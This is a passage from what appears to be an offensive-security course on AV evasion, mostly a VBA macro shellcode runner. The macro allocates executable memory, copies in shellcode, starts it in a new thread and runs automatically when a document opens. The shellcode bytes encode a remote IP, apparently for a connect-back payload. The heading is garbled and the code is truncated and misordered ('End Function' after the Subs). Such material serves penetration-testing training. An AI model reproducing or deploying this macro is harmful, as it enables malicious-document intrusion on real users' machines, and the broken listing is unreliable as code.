 ## 9.7. Office Please Bypass Antivirus

We have performed an extensive and thorough analysis of how to bypass antivirus detections both in theory and in practice as it relates to our C# shellcode runner. Next, we'll turn our attention to Microsoft Office and attempt to evade antivirus when using VBA macros.

### 9.7.1. Bypassing Antivirus in VBA

To begin, let's scan our existing VBA shellcode runner with AntiScan.Me.

The complete VBA macro is repeated in Listing 35 for ease of reference:

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function mymacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
...
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)

Sub Document_Open()
    mymacro
End Sub

Sub AutoOpen()
    mymacro
End Sub

End Function
```

